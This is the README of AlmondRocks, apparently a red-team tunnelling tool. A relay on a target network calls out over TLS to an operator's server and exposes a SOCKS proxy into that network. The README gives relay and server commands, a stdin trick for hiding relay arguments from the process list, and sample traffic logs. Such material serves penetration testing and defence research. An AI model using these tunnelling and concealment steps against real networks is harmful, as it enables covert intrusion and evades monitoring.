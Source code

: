 # AlmondRocks
AlmondRocks ("arox") is a tunneling tool that connects out from a target network and provides a (limited) SOCKSv5 interface. The tunnel connection is currently a binary protocol under TLS.

This tool is currently in BETA. The biggest known issue at the moment is lack of tunnel peer authentication.

## Requirements
- Python 2.7

## Components

### Server
The `server` receives tunnel connections and opens a SOCKS proxy port.

### Relay
The `relay` connects out from target to a `server`. All subsequent traffic proxied through the SOCKS port on the server will be tunneled through the target.

## Usage

### Server

Generate TLS certificate and private key. WARNING: You should use something like LetsEncrypt for this!!

```
self-signed certs and keys:

$ bash bin/cert.sh
$ ls -l ssl
```

The `-h` flag shows a help menu. Listen on 443/tcp for tunnel connections, and listen on 1080/tcp for SOCKS clients:

```
python arox.py -v server --tunnel-addr 0.0.0.0:443 --socks-addr 127.0.0.1:1080
```

### Relay (standalone)

The `-h` flag shows a help menu. Connect to master at 10.0.0.10:443:

```
python arox.py -v relay --tunnel-addr 10.0.0.10:443
```

### Relay (Empire)


```
TODO
```

### Advanced

In some cases you may want to hide commandline options in the process list. AROX supports passing arguments via stdin on the command line:

```
echo -v relay --tunnel-addr 10.0.0.10:443 | python arox.py
```

Looks like this in the process list:

```
[root@testing-c67 arox]# echo -v relay --tunnel-addr 10.0.0.10:443 | python2.7 arox.py
[-] Checking for options on stdin...
[+] Options received
[2018-05-15 14:39:36]     INFO SocksRelay: Connected to 10.0.0.10:443
...
[root@testing-c67 arox]# bg
[root@testing-c67 arox]# ps -ef --forest
...
root       1585   1584  0 14:04 pts/0    00:00:00                  \_ /bin/bash
root       1676   1585  0 14:39 pts/0    00:00:00                      \_ python2.7 arox.py
root       1677   1585  0 14:39 pts/0    00:00:00                      \_ ps -ef --forest
```

## Open connections

There is an easter egg that lists all connections that are opened via arox tunnel. Press `CTRL-\` on the arox server terminal to view statistics.

WARNING: test this locally first, as it relies on passing SIGQUIT to the process

```
...
[2018-05-15 19:43:34]     INFO Tunnel: Closed channel: <Channel id=304960167 remote_addr=www.pandora.com[208.85.40.50]:443 local_addr=127.0.0.1:56896>
[2018-05-15 19:43:34]     INFO Tunnel: Closed channel: <Channel id=304960168 remote_addr=www.pandora.com[208.85.40.20]:443 local_addr=127.0.0.1:56898>
^\[2018-05-15 19:43:42]  WARNING SocksServer:
[2018-05-15 19:43:42]  WARNING SocksServer: ~~~ Stats for nerds : 5 open channels, tunnel peer is 10.0.0.11:60814 ~~~
[2018-05-15 19:43:42]  WARNING SocksServer:   <Channel id=304960141 remote_addr=www.pandora.com[208.85.40.20]:443 local_addr=127.0.0.1:56844>
[2018-05-15 19:43:42]  WARNING SocksServer:   <Channel id=304960142 remote_addr=lt500.tritondigital.com[54.243.169.218]:443 local_addr=127.0.0.1:56846>
[2018-05-15 19:43:42]  WARNING SocksServer:   <Channel id=304960143 remote_addr=stats.pandora.com[208.85.40.147]:443 local_addr=127.0.0.1:56848>
[2018-05-15 19:43:42]  WARNING SocksServer:   <Channel id=304960145 remote_addr=adserver.pandora.com[208.85.40.115]:443 local_addr=127.0.0.1:56852>
[2018-05-15 19:43:42]  WARNING SocksServer:   <Channel id=304960146 remote_addr=adserver.pandora.com[208.85.40.115]:443 local_addr=127.0.0.1:56854>
[2018-05-15 19:43:42]  WARNING SocksServer: ~~~ End of Stats ~~~
...
```
